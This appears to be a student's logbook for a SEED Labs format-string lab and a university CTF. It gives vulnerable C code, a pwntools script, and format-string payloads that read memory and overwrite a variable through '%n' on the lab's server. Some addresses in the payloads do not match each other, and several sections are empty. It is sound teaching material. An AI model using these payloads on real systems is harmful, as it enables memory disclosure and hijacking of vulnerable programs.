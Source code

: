 # Trabalho realizado na Semana #7 - SEED Labs - Format-String Vulnerability Lab

This week's lab topic revolves around the printf() and other similar functions in C. These functions, when not properly sanitized, can easily be used to:
- crash the program
- read the internal memory of the program
- modify the internal memory of the program
- inject and execute malicious code using the victim program’sprivilege

## Setting up

To complete these tasks, we needed to disable the adress space randomization security mechanism, to make it easier to identify the adresses of the components and so that the address of the variables stay the same in each execution of a program

```
$ sudo sysctl -w kernel.randomize_va_space=0
```

## Task 1: Crashing the Program

The task is to input to the server, such that when the server program tries to print out the user input in the myprintf() function, it will crash.

We managed to Successfully crash the program by sending the "%s" string format specifier.
Using the following command:
![Alt text](/Logbooks/img/Week7/task1_1.png)
We got the following server message: (No smiley faces == program crash)
![Alt text](/Logbooks/img/Week7/task1_2.png)

## Task 2:  Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

The goal is to print out the data on the stack. For that we will use the "%x" format specifier joined with a character sequence 'ABCD' that's easy to find when the memory is printed. (Should appear as 44434241)

Using the following command:
![Alt text](/Logbooks/img/Week7/task2A_1.png)
We got the following server message:
![Alt text](/Logbooks/img/Week7/task2A_2.png)

The stack is found after 64 characters or 256 bytes.

### Task 2.B: Heap Data



## Task 3:  Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value.

### Task 3.B: Change the value to 0x5000.



# CTF - Control The Flag

## Challenge 1:

- What is the line of code where the vulnerability is located?
    - Line 27 in the printf(buffer) call.
- What does the vulnerability allow you to do?
    - Through the vulnerability, it is possible to crash the program, read memory, modify values, and inject malicious code.
- What is the functionality that allows you to obtain the flag?
    - Format String

1. Initially, we downloaded the provided files and verified that the attack was possible.

**main.c:**
```c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    return 0;
}
```

3. By observing the contents of the stack, to carry out the attack, we inserted content into the `p.sendline()` command of the `exploit_example.py` file in order to fill the maximum capacity of the buffer in the `main()` function, which can receive input equivalent to 32 bits. Subsequently, in the same command, we consecutively added various `%x` until we realized how many were needed to reach the input.

**example_exploit.py:**
```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    Use pause() in this script to allow you to use gdb to attach to the process. 
    To attach to the process, you need to obtain the process ID (pid) from the output of this program. 
    (Example: Starting local process './program': pid 9717 - The pid would be 9717) 
    Then run gdb to attach. 
    (Example: `$ gdb attach 9717`)
    When attaching to the process with gdb, the program pauses at the instruction where it was running. 
    To continue the program's execution, in gdb, send the "continue" command and press enter in the exploit script.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\xaa\xaa\xaa\xaa%x%x")
p.interactive()
```

4. Running the exploit, this is the output:
![scriptRun](/Logbooks/img/Week7/scriptRun.png)

5. Successfully observing the stack, we retrieved the address of the `flag` variable by running the gdb program:
![flagAddress]/Logbooks/img/Week7/flagAddress.png()

6. Obtaining this value, since the output of our program is right at the beginning of the stack, we converted it to little endian followed by a `%s` to read the value of the previously mentioned address (the address of the `flag` variable). With this, we assigned this value as input to the function running on the server `ctf-fsi.fe.up.pt 4004`:

```
$ echo -e '\x60\xc0\x04\x08%s' | nc ctf-fsi.fe.up.pt 4004
```

7. We obtained the flag:
![flagChallenge1](/Logbooks/img/Week7/flagDesafio1.png)



## Challenge 2:

- What is the line of code where the vulnerability is located, and what does the vulnerability allow you to do?
    - Line 14 in the `printf(buffer)` command.
    - Format String - It is possible to crash the program, read from memory, alter values, and inject malicious code.
- Is the flag loaded into memory? Or is there some functionality we can use to access it?
    - We can access and alter the value of the `key` variable.
- What do you need to do to unlock this functionality?
    - Since the `Format String` vulnerability allows altering the value of variables, it is possible to change the value of `key` to be equal to **0xbeef**.

1. We ran the gdb program to discover the address of the `key` variable:
![keyAddress]()

2. Since we want the `key` variable to have the value **0xbeef**, which corresponds to **48879** in decimal, we need to print 48879 characters and then call `%n`.
3. We proceed to construct the string that will serve as the attack. We start by converting the address of the `key` variable to little endian (\x34\xc0\x04\x08\) and then add the remaining number of bytes (48879 - 4 = 48875) to reach the address of the `key` variable. Thus, we have the string `\x20\xb3\x04\x08%48875x%n`.

(In review)

1. However, when we send this input to the program, when it reaches `%48875x`, the stack pointer advances to the next position and no longer points to `0x804c034` (the address of the `key` variable).
2. To solve this problem, we decided to add 8 bytes before the address of the `key` variable so that when the `%x` instruction is executed, the stack pointer points to the address of the `key` variable. This gives us the string `\x20\xb3\x04\x08\x20\xb3\x04\x08%48871x%n`. By assigning this in the server program, we obtain the flag in the flag.txt file:

![flagChallenge2]()

